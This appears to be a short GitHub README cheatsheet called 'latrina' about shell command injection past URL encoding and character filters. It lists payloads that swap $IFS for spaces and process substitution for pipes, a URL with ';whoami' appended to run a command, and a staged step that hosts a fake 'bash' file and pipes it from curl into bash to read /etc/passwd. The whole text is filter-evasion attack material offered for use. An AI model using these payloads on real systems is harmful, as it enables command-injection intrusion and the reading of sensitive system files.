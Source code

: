 # latrina
bypass url encoding for nontrivial shell commands and other copy-paste nightmares

# cheatsheet  
#### setting string variables without quotes    
`variable=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a` 
#### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
#### starting code execution in a url without ampersand
`curl http://localhost/;whoami`
#### redirecting to a hidden exploit  
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd -p 80 .`  
`curl -s http://localhost/$0 | bash`
